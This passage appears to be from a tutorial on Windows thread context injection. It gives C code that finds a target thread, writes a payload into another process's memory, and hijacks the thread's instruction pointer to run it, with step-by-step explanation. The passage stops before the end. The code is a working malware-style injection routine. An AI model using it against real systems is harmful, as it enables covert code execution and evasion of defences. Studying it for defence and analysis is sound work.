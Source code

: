 # Thread Context Injection
In this injection technique, we hijack a thread in the remote process and set the instruction pointer to our payload in the target process's address space. This forces the remote thread to run our payload instead of whatever it was doing. One major drawback of this technique is that, if we hijack a critical thread, we might end up crashing the program into which we are injecting. With that out of the way, let us look at the code. 

## The Code
The program has a familiar `main()` function:
```c
int main() {
    DWORD pid = find_pid(TARGET);
    int result = inject_thread_context(pid);
    return 0;
}
```
The `main()` function finds the Process ID (`pid`) of the target process and passes it onto the `inject_thread_context()` function, where the magic happens. 

But, before we get into the `inject_thread_context()` function, there is another function we need to take a look at first: `find_threadid()` - which is responsible for finding a valid Thread ID in the target process to which we can acquire a handle to.

The `find_threadid()` function has the following code:
```c
// Find thread ID in a process
DWORD find_threadid(DWORD pid) {
    THREADENTRY32 thEntry;
    thEntry.dwSize = sizeof(THREADENTRY32);
    HANDLE hThreadSnap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    BOOL result = Thread32First(hThreadSnap, &thEntry);
    while (Thread32Next(hThreadSnap, &thEntry)) {
        if (thEntry.th32OwnerProcessID == pid) {
            HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, thEntry.th32ThreadID); 
            if (!IS_HANDLE_INVALID(hThread)) {
                CloseHandle(hThread);
                CloseHandle(hThreadSnap);
                return thEntry.th32ThreadID;
            }
            CloseHandle(hThread);
        }
    }
    CloseHandle(hThreadSnap);
    return 0;
}
```
It is _very_ similar to the `find_pid()` function we have been using so far. Just like with `find_pid()`, we use the `CreateToolhelp32Snapshot()` to create a system snapshot with the `TH32CS_SNAPTHREAD` parameter to include all threads in the system in the snapshot. 

We then use `Thread32First()` to retrieve information about the first thread of any process encountered in a system snapshot. Then, we iterate over the entries in the snapshot with `Thread32Next()` and check the `th32OwnerProcessID` value of the `THREADENTRY32` structs to see if it belongs to the target process. If it does, we try to open a handle to the thread with `OpenThread()`, and if a valid handle is acquired, we close all open Handles and return the Thread ID. (See: [this MSDN post](https://learn.microsoft.com/en-us/windows/win32/toolhelp/traversing-the-thread-list))

Coming back to the `thread_context_injection()` function, it has the following code:
```c
int inject_thread_context(DWORD pid) {
    CONTEXT ctx;
    DWORD dResult;
    BOOL bResult;
    DWORD bWritten = 0;
    DWORD thId = find_threadid(pid);
    HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, thId);
    HANDLE hProcess = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, pid);

    LPVOID pRemoteCode = VirtualAllocEx(hProcess, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
    bResult = WriteProcessMemory(hProcess, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) &bWritten);

    dResult = SuspendThread(hThread);
    ctx.ContextFlags = CONTEXT_FULL;
    bResult = GetThreadContext(hThread, &ctx);
    #ifdef _M_IX86 
        ctx.Eip = (DWORD_PTR) pRemoteCode;
    #else
        ctx.Rip = (DWORD_PTR) pRemoteCode;
    #endif
    bResult = SetThreadContext(hThread, &ctx);
    dResult = ResumeThread(hThread);

    int _result = WaitForSingleObject(hThread, -1);
    CloseHandle(hProcess);
    CloseHandle(hThread);
    return 0;
}
```

The function can be broken into four major parts:
- Opening necessary handles
- Allocating memory and copying payload in the target process's virtual memory
- Setting thread context to our payload
- Waiting for our payload to finish execution

We begin by finding a valid thread id belonging to the target process and once we have it, we get a handle to it using `OpenThread()` as well as fetching a handle to the target process using `OpenProcess()`.

Then, we use the `VirtualAllocEx()` and `WriteProcessMemory()` combination to allocate memory for our payload into the target process's virtual memory and copy our payload into the allocated memory region.


